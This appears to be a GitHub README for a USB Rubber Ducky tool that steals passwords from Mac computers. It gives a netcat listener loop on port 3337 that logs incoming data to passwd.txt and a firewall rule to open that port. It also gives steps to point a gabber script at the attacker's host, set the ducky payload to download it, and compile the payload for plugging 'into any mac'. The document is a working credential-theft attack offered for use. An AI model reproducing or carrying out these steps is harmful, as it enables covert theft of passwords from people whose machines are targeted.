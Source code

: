# Automatic Mac Password Gabber

## Setup First

### Create following script and execute it on your host

* Listening on port 3337

```shell
#!/bin/bash
while [ true ]
do
netcat -vlp 3337 &>> passwd.txt
done
```

* Open firewall for port 3337

```shell
sudo ufw allow 3337/tcp
```

## How To Use

### Clone the repository to your machine

```shell
git clone https://github.com/ohbriansung/usb_rubber_ducky.git
```

### Change TARGET to your host in the script: [gabber.sh](./gabber.sh)

```shell
vi ./usb_rubber_ducky/auto_mac_pw_grab/gabber.sh
```

### Upload updated script to your own github repository

### Change gabber script download address in the ducky script on line 16: [ducky_grabber.txt](./ducky_grabber.txt)

```shell
vi ./usb_rubber_ducky/auto_mac_pw_grab/ducky_grabber.txt
```

### Plug in your microSD card and compile the ducky script into binary

```shell
java -jar ~/Downloads/duckencoder.jar  -i ./usb_rubber_ducky/auto_mac_pw_grab/ducky_grabber.txt -o /Volumes/NO\ NAME/inject.bin
```

### Insert the microSD card into your USB Rubber Ducky and plug your device into any mac!
